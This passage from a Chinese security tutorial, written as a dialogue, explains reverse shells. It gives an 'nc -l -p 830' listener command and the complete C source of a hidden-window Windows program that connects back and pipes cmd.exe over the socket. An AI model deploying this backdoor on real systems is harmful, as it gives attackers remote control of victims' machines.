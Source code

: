 “对！” 宇强说道，“那我们在攻击机上用 nc –l –p 830 监听 830 端口，而在目标机上运行 ShellCode，其功能是主动连接我们攻击机的 IP 和 830 端口来接收命令。这就是反连的意思。”

“嗯，思路应该就是这样！”小倩说道。

“网络传输部分和正向类似，只不过 ShellCode 是客户端，流程应该是：”

socket()→connet(攻击机 ip，端口)→send/recv()→closesocket()

“实现也比较简单，像下面这样。” 宇强边说边写。

```
WSAStartup(MAKEWORD(2,2),&ws);
WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
connect(s,(struct sockaddr *)&server,sizeof(server) ); 
```

“和 CMD 子进程连接也是一样的，或者用一个管道，或者用两个管道，或者不用管道，直接用 Socket 句柄来代替。” 宇强继续说，“就像下面这样：”

```
//CMD 的输入输出句柄，都用 Socket 来替换
si.hStdInput = si.hStdOutput = si.hStdError = (void *)s;
//建立进程    
ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation); 
```

“把它们合起来就可以了吧？”小倩说。

“是啊，我们可以得到反向连接的程序（BackC.cpp），如下：”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
int main()
{
     WSADATA ws;
     SOCKET s;
     int ret;
     //初始化 wsa
     WSAStartup(MAKEWORD(2,2),&ws);
     //建立 Socket
     s=WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
     //连接对方 830 端口
     struct sockaddr_in server;
     server.sin_family = AF_INET;
     server.sin_port = htons(830);
     server.sin_addr.s_addr=inet_addr("127.0.0.1");
     //反向连接！
     connect(s,(struct sockaddr *)&server,sizeof(server) ); 
     STARTUPINFO si;
     ZeroMemory(&si,sizeof(si));
     si.cb = sizeof(si);
     si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
     si.wShowWindow = SW_HIDE;
     //CMD 的输入输出句柄，都用 Socket 来替换
     si.hStdInput = si.hStdOutput = si.hStdError = (void *)s;
     char cmdLine[] = "cmd.exe";
     PROCESS_INFORMATION ProcessInformation;
     //建立进程    
     ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
      return 0;
} 
```
